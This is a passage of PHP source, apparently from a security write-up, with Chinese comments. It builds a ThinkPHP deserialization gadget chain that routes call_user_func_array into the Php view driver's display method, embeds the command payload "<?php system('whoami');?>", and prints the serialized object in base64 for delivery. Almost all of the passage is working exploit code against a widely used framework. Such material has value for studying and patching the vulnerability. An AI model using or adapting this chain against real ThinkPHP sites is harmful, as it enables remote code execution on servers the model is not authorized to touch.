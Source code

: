 ```php
            $this->withEvent = false;
            $this->exists = true;
            $this->table = new Url();
            $this->force = true;
            $this->data = ["1"];
        }
    }
}

namespace think\model {

    use think\Model;

    class Pivot extends Model
    {
        function __construct()
        {
            parent::__construct();
        }
    }
    $b = new Pivot();  //只能实例化model的子类
    echo base64_encode(serialize($b)); //直接输出实例化后抽象类Model的子类的序列化即可
}

namespace think\route {

    use think\Middleware;
    use think\Validate;

    class Url
    {
        protected $url;
        protected $domain;
        protected $app;
        protected $route;
        public function __construct()
        {
            $this->url = 'a:';  //过if
            $this->domain = "<?php system('whoami');?>";  //命令执行的参数
            $this->app = new Middleware();
            $this->route = new Validate(); //把参数带进来
        }
    }
}

namespace think {

    use think\view\driver\Php;

    class Validate
    {
        public function __construct()
        {
            $this->type['getDomainBind'] = [new Php(), 'display']; //以数组的方式来让call_user_func_array调用任意类中的任意方法
        }
    }
    class Middleware
    {
        public function __construct()
        {
            $this->request = "sp4c1ous";  //这里是为了满足那个request
        }
```